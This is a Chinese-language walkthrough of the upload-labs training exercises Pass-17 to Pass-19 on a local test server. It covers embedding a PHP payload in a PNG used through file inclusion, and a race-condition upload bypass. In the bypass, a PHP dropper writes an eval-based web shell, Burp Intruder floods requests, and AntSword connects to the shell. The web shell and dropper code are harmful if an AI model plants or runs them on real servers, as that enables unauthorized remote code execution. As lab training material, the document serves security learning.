 ```
imagepng($img,'./pass17.png');
?>


cmd执行php payload.php  file.png
paylod.php是写有以上代码的文件
file.png是随意一张png图片
pass17.png是生成的图片
```

png图片上传后利用文件包含漏洞传 post 参数，同时GET：&0=phpinfo



# Pass-18

## 考察点 条件竟争绕过


```
条件竞争漏洞是一种服务器端的漏洞，由于服务器端在处理不同的请求时是并发进行的，因此如果并发处理不当或相关操作顺序设计的不合理时，将会导致此类问题的发生。

上传文件源代码里没有校验上传的文件，文件直接上传，上传成功后才进行判断：如果文件格式符合要求，则重命名，如果文件格式不符合要求，将文件删除

由于服务器并发处理(同时)多个请求，假如a用户上传了木马文件，由于代码执行需要时间，在此过程中b用户访问了a用户上传的文件，会有以下三种情况：
1.访问时间点在上传成功之前，没有此文件
2.访问时间点在刚上传成功但还没有进行判断，该文件存在
3.访问时间点在判断之后，文件被删除，没有此文件

可通过bp的intruder模块大量发送上传文件数据包，再新开一个intruder模块大量接受访问此文件的数据包，会出现一些执行成功的结果
永久：
执行成功时，通过代码写入一个文件，文件里写入木马， 之后重复临时的步骤，执行成功时就会将带有木马的文件写入

原文链接：https://blog.csdn.net/wsnbbz/article/details/104651408/
```

创建一个shell.php文件，里边内容

```
<?php
$myfile = fopen("shell_pass18.php","w") or die("Unable to open file!");
$txt = '<?php @eval($_POST[value]); echo "i am";?>';
fwrite($myfile, $txt);
fclose($myfile);
?>
```

上传抓包，发包到intruder, Clear,Add变量a(自己加的）,

Playload type:Numbers

From:1 ,To:11111

打开浏览器页面http://127.0.0.1/upload-labs/upload/shell.php

start attack

疯狂刷新，看到有页面一闪而过就可以了

然后访问http://127.0.0.1/upload-labs/upload/shell_pass18.php

成功，蚁剑连接



# Pass-19

同上